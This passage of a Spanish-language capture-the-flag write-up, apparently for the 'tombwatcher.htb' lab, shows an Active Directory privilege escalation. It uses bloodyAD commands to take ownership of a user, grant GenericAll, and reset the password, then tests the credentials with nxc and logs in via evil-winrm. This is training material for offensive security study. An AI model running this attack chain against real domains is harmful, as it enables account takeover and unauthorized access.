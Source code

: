 <img width="1920" height="305" alt="image" src="https://github.com/user-attachments/assets/09a1f1a3-ebde-4fa7-8107-a4e8f19ac8cb" />


ahora continuando con `Bloodhound` vemos que este usuario tiene permisos sobre otro usuario

<img width="1920" height="1014" alt="image" src="https://github.com/user-attachments/assets/0c6bb6f0-869c-4251-9a36-8ecbae66e164" />


ahora podemos ver que el usuario `SAM` tiene permiso `WriteOwner` sobre el usuario `JOHN` lo que implica que es posible modificar el propietario del usuario `JOHN`  

>>> Cambiamos el propietario

```bash
bloodyAD -d tombwatcher.htb -u 'SAM' -p 'Darksblack10*' --host DC01 set owner "JOHN" "SAM" # Cambiamos el propietario del usuario john, que ahora el propietario es el usuario sam
```

>>> Ahora que el propietario del Usuario JOHN es el usuario SAM vamos a poder agregarle mas Privilegios para luego tomar el control total de JOHN, por lo que le agregamos el permiso genericAll

```bash
bloodyAD -d tombwatcher.htb -u 'SAM' -p 'Darksblack10*' --host DC01 add genericAll "JOHN" "SAM"
```

>>> genericAll: Es un permiso que concede todos los derechos posibles sobre un objeto, equivalentes a ser "dueño absoluto". Incluye:
>>> 
>>> Cambiar contraseñas (Reset Password).
>>> 
>>> Modificar membresías de grupos (AddMember).
>>> 
>>> Editar atributos (WriteProperty).
>>> 
>>> Eliminar el objeto (Delete).


Ahora que ya tenemos control total sobre el usuario `JOHN` vamos a cambiar la password

```bash
bloodyAD -d tombwatcher.htb -u 'SAM' -p 'Darksblack10*' --host DC01 set password "JOHN" "Darksblack10."
```

despues testeamos las credenciales

```bash
nxc smb DC01.tombwatcher.htb -u 'JOHN' -p 'Darksblack10.' --shares
```

<img width="1920" height="532" alt="image" src="https://github.com/user-attachments/assets/15cba730-d39b-4daf-b243-fdd0508ebe56" />


continuamos con las relaciones en `Bloodhound` y vemos que el usuario `JOHN` pertenece al grupo `REMOTE MANAGEMENT` lo cual nos permitira acceder via `WinRM`

<img width="1920" height="1012" alt="image" src="https://github.com/user-attachments/assets/922e4162-24da-4efe-b436-019df0fb1833" />

```bash
evil-winrm -i DC01 -u 'john' -p 'Darksblack10.'
```
